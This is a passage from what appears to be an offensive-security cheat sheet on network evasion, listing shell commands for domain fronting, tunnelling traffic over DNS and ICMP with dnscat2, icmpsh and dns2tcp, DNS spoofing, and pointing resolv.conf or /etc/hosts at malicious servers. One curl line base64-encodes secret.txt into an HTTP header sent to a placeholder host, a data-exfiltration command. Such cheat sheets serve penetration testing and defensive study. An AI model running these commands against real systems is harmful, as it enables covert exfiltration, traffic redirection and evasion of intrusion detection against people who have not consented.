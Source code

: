 - **Domain Fronting:** Use legitimate, high-trust domains (like Google or Amazon) to tunnel traffic and bypass network filters. The initial request is directed to a legitimate domain, but traffic is eventually routed to a malicious domain, bypassing IDS/IPS systems.
- **Domain Fronting with `curl`:**
	```bash
	curl -H "Host: <malicious_host>" https://<legitimate_host>
	```

#### Custom Protocol Encapsulation
- **`dnscat2` Encapsulation TCP Traffic Over DNS:**
	```bash
	dnscat2 <dns_server_ip>
	```
- **`icmpsh` Encapsulation Data in ICMP Packets:**
	```bash
	sudo ./icmpsh -t <target_ip> -d <local_ip>
	```

#### Steganography in Network Traffic
- **Hide Data in DNS Queries Using `dns2tcp`:**
	```bash
	dns2tcpc -z -r <tunnel.dns.server> <target>
	```
- **Exfiltrate Data Hidden in HTTP Headers:** Embed data in HTTP headers to exfiltrate information without raising alarms.
	```bash
	curl -H "X-Data: $(base64 secret.txt)" http://<target_ip>
	```

# DNS Evasion and Manipulation

#### DNS Spoofing
- **Spoof DNS Responses with `dnsspoof`:**
	```bash
	sudo dnsspoof -i eth0 -f /path/to/hosts.txt
	```

#### Modify DNS Resolution
- **Change DNS server:**
	```bash
	sudo bash -c 'echo "nameserver <malicious_dns>" > /etc/resolv.conf'
	```
- **Spoof DNS resolution:**
	```bash
	sudo bash -c 'echo "<malicious_ip> <target_domain>" >> /etc/hosts'
	```

####  Flush DNS Cache
- **Flush systemd-resolved DNS cache:**
	```bash
	sudo systemd-resolve --flush-caches
	```
- **Restart dnsmasq to clear its DNS cache:**
	```bash
	sudo service dnsmasq restart
	```
